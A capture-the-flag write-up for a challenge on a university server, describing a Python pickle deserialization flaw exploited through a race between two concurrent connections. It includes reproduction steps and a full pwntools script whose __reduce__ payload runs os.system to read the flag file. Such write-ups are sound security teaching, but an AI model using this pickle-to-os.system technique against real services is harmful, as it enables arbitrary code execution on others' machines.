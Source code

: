 # Challenge `Pickles in a seri(al)ous race` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to remote code execution

- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt`, on port `23653`

- Impact: What results of exploiting this vulnerability
  - Allows the user to execute arbitrary code on the server through a vulnerability on `pickles`. When a `dumped` class containing a `__reduce__` method is `load`ed, the code in the method is executed on the host machine.

## Steps to reproduce

1. Start by `dump`ing a class containing the `__reduce__` method with the desired code to execute
2. Open a connection to the server, inputing an arbitrary username
3. Select `Classy` note and `Read`
4. Open a second connection, giving the same username
5. Select `Free` note and `Write`
6. Pick an arbitrary name and send the bytes of the `pickled` class
7. On the first connection, try to read the note with the chosen name
8. The `__reduce__` method will be executed, allowing the user to explore the host machine


The code used was the following:

```py
from pwn import *
import time
import pickle

####################

class RCE:
    def __reduce__(self):
        import os
        return os.system, ('cat home/ctf/flag',)
    
pickled = pickle.dumps(RCE())

####################

s1 = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23653", timeout=9999)

s1.send(b"joao\n")
s1.send(b"0\n") # classy
s1.send(b"0\n") # read

####################

s2 = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23653", timeout=9999)

s2.send(b"joao\n")
s2.send(b"1\n") # free
s2.send(b"1\n") # write
s2.send(b"hack\n") # nome
s2.send(pickled) # conteudo
s2.send(b"\n")
s2.send(b"\n")

####################

time.sleep(2)
s1.send(b"hack\n") # nome
s1.recvuntil(b"note_name: ")
print(s1.recvall().decode('utf-8'))
```

Note: The bytes must be sent as a `Free` note, since `Classy` dumps the note content as an attribute of another class.
      Two concurrent connections are needed because upon switching note type, all previous notes are deleted